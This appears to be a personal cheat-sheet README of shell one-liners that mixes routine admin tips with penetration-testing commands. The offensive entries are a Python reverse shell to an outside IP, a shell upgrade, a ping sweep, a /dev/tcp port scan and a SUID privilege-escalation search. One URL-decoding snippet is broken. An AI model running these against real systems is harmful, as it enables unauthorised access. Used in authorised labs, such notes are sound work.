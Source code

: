 ## Table of Contents

- [python/pypy stuff](#python/pypy\stuff)
      - [How can I format USB drive in CMD?](#How\can\I\format\USB\drive\in\CMD?)
- [Linux Enumeration for SUID Binaries](#linux\enumeration\for\suid\binaries)
  - [Start/Stop Docker Service](#Start/Stop\Docker\Service)

 ### One liners


# python/pypy stuff
**Python Reverse shell One liner**
`\python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")\`

**python shell upgrade**
`\python3 -c 'import pty;pty.spawn("/bin/bash")'\`


**Find all binary files that are own/Ran under a different user with execute permissions:**
`\find / -type[f,b,d] ! -user $(whoami) -perm /u=x\`


**Kill OpenVPN**
`sudo kill -9 $(ps aux | grep openvpn | grep -v grep | awk '{print $2}')`

**Retrieve all users on a windows machine using PowerShell**
`Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount=True"`


**Fully update Linux/Kali Linux machiness**
`sudo apt-get update && sudo apt upgrade -y && sudo apt dist-upgrade && sudo apt autoremove`

**Windows PowerShell command to retrieve info about a file, below gets size (in bytes) of a .exe**

`$file = Get-Item "path_to_your_file.exe"
`$file.Length

**Download an entire website**
```shell
wget --random-wait -r -p -e robots=off -U mozilla http://example.com
```


**URL Decoding** 
```shell
 -e's/%\([0-9A-F][0-9A-F]\)/\\\\\x\1/g' |  [xargs] echo -e

```


#### How can I format USB drive in CMD?
You can press Windows + R, type cmd, and press Ctrl + Shift + Enter to run Command Prompt as administrator. Then type the following commands and press Enter after each command.
- diskpart
- list disk
- select disk * (replace * with the exact disk number of USB)
- clean
- format fs=fat32 quick (replace fat32 with ntfs if you want to format USB to ntfs format)
- assign letter=* (replace * with preferred drive letter)
- exit

**Chmod Numbers**
Number | Permissions | Totals
-------------------------------------------------
```bash
0 | --- | 0+0+0
1 | --x | 0+0+1
2 | -w- | 0+2+0
3 | -wx | 0+2+1
4 | r-- | 4+0+0
5 | r-x | 4+0+1
6 | rw- | 4+2+0
7 | rwx | 4+2+1 
```
#linuxepermissionstable
**Ping Sweep Example**
```shell
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
#pingsweep
It’s a safe guess that .1 is the Docker host.

A quick port scan shows it’s listening on 22 and 80:

```shell
root@3a453ab39d3d:~ for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null           
22 open
80 open
```

# Linux Enumeration for SUID Binaries
```shell
find / -perm -4000 2>/dev/null
```
#LInux #enumeration #suid #find #binaries #privesc 

## Start/Stop Docker Service
```shell
sudo systemctl stop docker
Activate with: docker.socket
```
#docker










